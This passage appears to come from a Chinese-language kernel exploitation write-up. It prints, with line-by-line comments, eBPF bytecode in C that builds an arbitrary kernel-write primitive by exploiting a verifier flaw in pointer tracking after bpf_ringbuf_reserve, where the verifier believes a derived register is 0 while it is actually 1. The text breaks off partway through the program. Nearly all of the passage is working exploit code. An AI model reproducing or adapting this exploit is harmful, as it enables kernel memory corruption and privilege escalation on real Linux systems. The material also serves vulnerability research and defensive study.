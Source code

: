 实现任意写原语的 eBPF 程序：

```C
struct bpf_insn arbitrary_write[] = {
    // 保存r1，r1被内核初始化为指向skb的指针。
    // r9 = r1
    BPF_MOV64_REG(BPF_REG_9, BPF_REG_1),
	
    // 获取array指针，r0类型为PTR_TO_MAP_VALUE_OR_NULL。
    // r0 = bpf_lookup_elem(ctx->comm_fd, 0)
    BPF_LD_MAP_FD(BPF_REG_1, ctx->comm_fd),
    BPF_ST_MEM(BPF_DW, BPF_REG_10, -8, 0),
    BPF_MOV64_REG(BPF_REG_2, BPF_REG_10),
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -4),
    BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_map_lookup_elem),
	
    // 必需的判断，令false分支的r0变成PTR_TO_MAP_VALUE类型。
    // if (r0 == NULL) exit(1)
    BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 2),
    BPF_MOV64_IMM(BPF_REG_0, 1),
    BPF_EXIT_INSN(),
	
    // 将array指针保存进r8。
    // r8 = r0
    BPF_MOV64_REG(BPF_REG_8, BPF_REG_0),
	
    // 获取PTR_TO_MEM_OR_NULL类型指针，保存在r0。
    // r0 = bpf_ringbuf_reserve(ctx->ringbuf_fd, PAGE_SIZE, 0)
    BPF_LD_MAP_FD(BPF_REG_1, ctx->ringbuf_fd),
    BPF_MOV64_IMM(BPF_REG_2, PAGE_SIZE),
    BPF_MOV64_IMM(BPF_REG_3, 0x00),
    BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_ringbuf_reserve),

	// 复制PTR_TO_MEM_OR_NULL类型指针，副本保存在r1。
    // r1 = r0
    BPF_MOV64_REG(BPF_REG_1, BPF_REG_0),
    // r1 = r1 + 1
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_1, 1),

    // 不可能发生。ringbuf的大小虽然为PAGE_SIZE，但其中一部分用于存储关于ringbuf的结构体，剩下的才用于存储数据。
    // 因此，请求保留PAGE_SIZE的内存不可能实现。
    // if (r0 != NULL) { ringbuf_discard(r0, 1); exit(2); }
    BPF_JMP_IMM(BPF_JEQ, BPF_REG_0, 0, 5),
    BPF_MOV64_REG(BPF_REG_1, BPF_REG_0),
    BPF_MOV64_IMM(BPF_REG_2, 1),
    BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_ringbuf_discard),
    BPF_MOV64_IMM(BPF_REG_0, 2),
    BPF_EXIT_INSN(),
	
    // 经过上面的NULL检查后，verifier认为r0=0。
    // 由于r1是由r0派生出来的，因此verifier也会认为r1=0。但实际上，r1=1。

    // r7 = (r1 + 1) * 8
    BPF_MOV64_REG(BPF_REG_7, BPF_REG_1),
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_7, 1),
    BPF_ALU64_IMM(BPF_MUL, BPF_REG_7, 8),

    // verifier认为r7=8，但实际上r7=16。

    // 调试发现array指针都是0xFFFF..........10
    // 将该指针保存到r10-8处
    // *(u64 *)(r10 - 8) = r8
    BPF_STX_MEM(BPF_DW, BPF_REG_10, BPF_REG_8, -8),

```